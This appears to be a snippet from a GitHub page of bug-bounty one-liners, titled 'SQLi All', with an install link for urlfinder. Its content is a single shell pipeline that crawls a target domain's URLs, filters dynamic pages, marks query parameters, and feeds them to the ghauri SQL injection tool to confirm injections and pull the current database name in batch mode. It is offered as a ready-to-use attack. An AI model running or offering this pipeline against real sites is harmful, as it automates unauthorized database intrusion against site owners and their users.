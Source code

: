 ### SQLi All
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;ghauri -m sqli.txt --random-agent --confirm --force-ssl --level=3 --current-db --batch
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder">urlfinder</a></p>
